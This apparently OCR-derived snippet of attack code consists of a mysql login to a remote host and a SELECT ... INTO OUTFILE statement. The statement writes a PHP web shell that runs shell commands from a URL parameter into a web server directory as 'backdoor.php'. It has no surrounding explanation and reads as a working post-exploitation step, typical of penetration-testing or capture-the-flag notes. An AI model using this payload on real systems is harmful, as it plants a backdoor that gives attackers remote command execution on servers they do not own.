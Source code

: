 mysql --ssl-skip -u $USER -p$PASS -h $RHOST

SELECT “<?php system($_GET[‘cmd’]); ?>” into outfile “/var/www/WEROOT/backdoor.php”;